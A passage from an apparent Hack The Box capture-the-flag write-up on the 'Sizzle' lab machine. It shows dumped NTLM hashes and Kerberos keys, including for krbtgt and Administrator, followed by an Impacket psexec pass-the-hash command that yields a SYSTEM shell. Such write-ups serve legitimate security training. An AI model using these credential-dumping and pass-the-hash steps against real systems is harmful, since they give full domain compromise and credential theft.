```bash
SIZZLE$:1001:aad3b435b51404eeaad3b435b51404ee:acab2862d095070be6c564b548e5bff2:::
[*] Kerberos keys grabbed
Administrator:aes256-cts-hmac-sha1-96:e562d64208c7df80b496af280603773ea7d7eeb93ef715392a8258214933275d
Administrator:aes128-cts-hmac-sha1-96:45b1a7ed336bafe1f1e0c1ab666336b3
Administrator:des-cbc-md5:ad7afb706715e964
krbtgt:aes256-cts-hmac-sha1-96:0fcb9a54f68453be5dd01fe555cace13e99def7699b85deda866a71a74e9391e
krbtgt:aes128-cts-hmac-sha1-96:668b69e6bb7f76fa1bcd3a638e93e699
krbtgt:des-cbc-md5:866db35eb9ec5173
amanda:aes256-cts-hmac-sha1-96:60ef71f6446370bab3a52634c3708ed8a0af424fdcb045f3f5fbde5ff05221eb
amanda:aes128-cts-hmac-sha1-96:48d91184cecdc906ca7a07ccbe42e061
amanda:des-cbc-md5:70ba677a4c1a2adf
mrlky:aes256-cts-hmac-sha1-96:b42493c2e8ef350d257e68cc93a155643330c6b5e46a931315c2e23984b11155
mrlky:aes128-cts-hmac-sha1-96:3daab3d6ea94d236b44083309f4f3db0
mrlky:des-cbc-md5:02f1a4da0432f7f7
sizzler:aes256-cts-hmac-sha1-96:85b437e31c055786104b514f98fdf2a520569174cbfc7ba2c895b0f05a7ec81d
sizzler:aes128-cts-hmac-sha1-96:e31015d07e48c21bbd72955641423955
sizzler:des-cbc-md5:5d51d30e68d092d9
SIZZLE$:aes256-cts-hmac-sha1-96:dbea0033f1f2c77592c41043ce7e565eee411c06ff6b264d320c7e3b2dd2c9fc
SIZZLE$:aes128-cts-hmac-sha1-96:0828b305826a82e0bb1b1141a2d757f6
SIZZLE$:des-cbc-md5:7f5dcd5e0b80adfe
[*] Cleaning up...
```

We can use the hash to login.

```bash
root@kali:~/CTF/HTB/Boxes/Sizzle# psexec.py Administrator@10.10.10.103 -hashes aad3b435b51404eeaad3b435b51404ee:f6b7160bfc91823792e0ac3a162c9267
Impacket v0.9.21 - Copyright 2020 SecureAuth Corporation

[*] Requesting shares on 10.10.10.103.....
[*] Found writable share ADMIN$
[*] Uploading file zfiadosf.exe
[*] Opening SVCManager on 10.10.10.103.....
[*] Creating service JmWA on 10.10.10.103.....
[*] Starting service JmWA.....
[!] Press help for extra shell commands
Microsoft Windows [Version 10.0.14393]
(c) 2016 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
nt authority\system
```

We Own the Box!!